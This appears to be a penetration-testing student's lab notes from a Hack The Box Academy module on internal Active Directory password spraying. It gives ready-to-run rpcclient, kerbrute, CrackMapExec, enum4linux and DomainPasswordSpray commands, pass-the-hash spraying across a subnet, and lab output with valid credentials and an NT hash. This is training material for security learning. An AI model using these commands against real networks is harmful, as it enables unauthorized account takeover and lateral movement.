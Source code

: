 # 🗣️ Spray Responsibly

## Internal Password Spraying - from Linux

`Rpcclient` is an excellent option for performing this attack from Linux after creating a wordlist, We can filter out invalid login attempts by `grepping` for `Authority` in the response

**Using a Bash one-liner for the Attack**

```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

In a target environnment this would be the output:

```
ElFelixio@htb[/htb]$ for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

Account Name: tjohnson, Authority Name: INLANEFREIGHT
Account Name: sgage, Authority Name: INLANEFREIGHT
```

**Using Kerbrute for the Attack**

```
ElFelixio@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
```

**Using CrackMapExec & Filtering Logon Failures**

```
ElFelixio@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123 
```

After getting the credentials, we can use Crackmapexec to validate the credentials:

**Validating the Credentials with CrackMapExec**

```
ElFelixio@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

### Local Administrator Password Reuse

Sometimes we may only retrieve the NTLM hash for the local administrator account from the local SAM database. In these instances, we can spray the NT hash across an entire subnet (or multiple subnets) to hunt for local administrator accounts with the same password set.

In the example below, we attempt to authenticate to all hosts in a /23 network using the built-in local administrator account NT hash retrieved from another machine.

**Local Admin Spraying with CrackMapExec**

```shell-session
ElFelixio@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

We got valid credentials as local admin on `3` systems in the `172.16.5.0/23` subnet

### Practical example

We start by making a list of valid users and putting it in a list:

```
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]" >valid_users.txt
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And then we launch our CME command:

```
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Welcome1 | grep +
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And just like that, we found a user account starting with the letter "s" that has the password Welcome1

## Internal Password Spraying - from Windows

From a foothold on a domain-joined Windows host, the [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) tool is highly effective. If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out.

**Using DomainPasswordSpray.ps1**

```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

{% hint style="info" %}
we could also user kerbrute on a windows host
{% endhint %}

#### Practical example

For this question i start by connecting through RDP to the machine and finding the Password spraying tool

```
xfreerdp /v:10.129.62.40 /u:htb-student /p:Academy_student_AD!
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And after launching the ps1 file we get a hit:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
